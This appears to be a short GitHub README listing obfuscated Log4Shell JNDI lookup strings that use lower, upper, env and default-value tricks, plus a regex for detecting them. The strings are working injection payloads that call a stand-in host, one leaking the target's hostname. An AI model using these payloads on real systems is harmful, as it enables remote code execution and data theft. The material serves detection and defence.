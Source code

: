 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

```

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

```

# Regex

Pattern match to capture all of above

```

.*\$\{.{0,20}j.{0,20}n.{0,20}d.{0,20}i.{0,150}:.{0,5}\/.*\}

```
